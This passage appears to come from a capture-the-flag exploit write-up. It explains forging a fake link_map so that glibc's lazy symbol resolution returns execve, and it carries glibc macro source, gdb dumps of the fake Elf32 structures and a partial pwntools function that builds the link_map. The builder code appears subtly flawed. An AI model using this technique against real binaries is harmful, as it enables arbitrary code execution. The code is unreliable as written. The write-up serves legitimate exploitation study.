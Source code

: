 ```c 
(((refsym) == ((void*)0) ? 0 : (__builtin_expect (((refsym)->st_shndx == 0xfff1), 0) ? 0 : ((1) || (l) ? (l)->l_addr : 0)) + (refsym)->st_value))
```

After cleaning up the checks the return value is basically `link_map->l_addr + refsym->st_value`
We have full control of link_map and refsym so we can use this second case to resolve execve. 

If we manage to set st_value to a libc address then we can brute force libc offsets using l_addr. 

We can set the fake symtab to point to the GOT entry of __libc_start_main and l_addr to `execve - __libc_start_main's address`. Hence when they are added it should return the address of execve. This means that we do not need to set up a STRTAB or SYMTAB, we just need a jmprel

One thing to note about the link map's l_info array, it does not point to the symtab or jmprel but rather a pointer to a struct that contains a pointer as well as its identifier.

```gdb 
gef➤  x/2wx (*(link_map*)0x0804bb70).l_info[23]
0x804bbf8:      0x00000017      0x0804bbff                <==== Fake jmptab
gef➤  x/2wx (*(link_map*)0x0804bb70).l_info[6]
0x804bbf0:      0x00000006      0x0804b010                <==== Fake Symtab
gef➤  p *(Elf32_Rel*)0x0804bbff
$1 = {
  r_offset = 0xf8de3808,                                  <==== This value will be explain later
  r_info = 0x707
}
gef➤  p *(Elf32_Sym*)0x0804b010
$2 = {
  st_name = 0xf7d3e5d0,
  st_value = 0xf7cbd560,
  st_size = 0xf7d0f970,
  st_info = 0x30,
  st_other = 0x75,
  st_shndx = 0xf7e1
}
```

This means that in our link map we only need a l_addr, and l_info with strtab, symtab and jmprel pointers. Outside of the link map we need to construct the jmprel structure as well as the extra structs to point to our tables. 

```python 
def make_link_map(fake_addr, offset_2_addr):
    """
    link_map 
        l_info 

    symtab( NOT NEEDED)
    jmptab
    strtab (NOT NEEDED)
    """
    map_size =  128

    fake_link_map = b'' 
    fake_link_map += p32(offset_2_addr)

    fake_link_map += fake_link_map.ljust(0x30, b'\x00') 

    # *strtab, pointer to pointer of strtab, NOT NEEDED so put anything
    fake_link_map += p32(exe.bss()) 

    # *symtab, pointer to pointer of symtab
    fake_link_map += p32(fake_addr + map_size ) 
    fake_link_map = fake_link_map.ljust(124, b'\x00') 
    # *jmptab, pointer to pointer of jmptab
    fake_link_map += p32(fake_addr + map_size+8) 

```